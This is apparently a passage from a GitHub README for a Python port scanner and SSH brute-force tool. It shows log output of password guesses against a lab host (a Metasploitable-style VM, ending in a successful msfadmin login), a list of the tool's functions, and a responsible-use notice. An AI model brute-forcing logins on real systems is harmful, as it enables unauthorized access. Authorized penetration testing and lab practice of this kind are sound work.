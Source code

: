 ```
2025-01-15 12:02:46,345 - INFO - Connected (version 2.0, client OpenSSH_4.7p1)
2025-01-15 12:02:47,727 - INFO - Authentication (password) failed.
Failed SSH login with username: msfadmin and password: hi on 192.168.0.34:22
Attempting SSH login with username: msfadmin and password: admin on 192.168.0.34:22
2025-01-15 12:02:47,745 - INFO - Connected (version 2.0, client OpenSSH_4.7p1)
2025-01-15 12:02:50,196 - INFO - Authentication (password) failed.
Failed SSH login with username: msfadmin and password: admin on 192.168.0.34:22
Attempting SSH login with username: msfadmin and password: msfadmin on 192.168.0.34:22
2025-01-15 12:02:50,212 - INFO - Connected (version 2.0, client OpenSSH_4.7p1)
2025-01-15 12:02:50,342 - INFO - Authentication (password) successful!
Successful SSH login with username: msfadmin and password: msfadmin on 192.168.0.34:22

```
## Code Structure
- `display_logo()`: Displays the tool's logo.
- `scan_port(ip, port, timeout)`: Scans a single port and attempts banner grabbing.
- `port_scan(ip, start_port, end_port, timeout)`: Scans multiple ports concurrently.
- `load_credentials_from_file(filepath)`: Loads usernames or passwords from a file.
- `brute_force_ssh(ip, username_list, password_list, timeout)`: Performs SSH brute force using the provided credentials.

## Notes
- Use this tool responsibly and only on systems you are authorized to test.
- Ensure compliance with applicable laws and ethical guidelines.

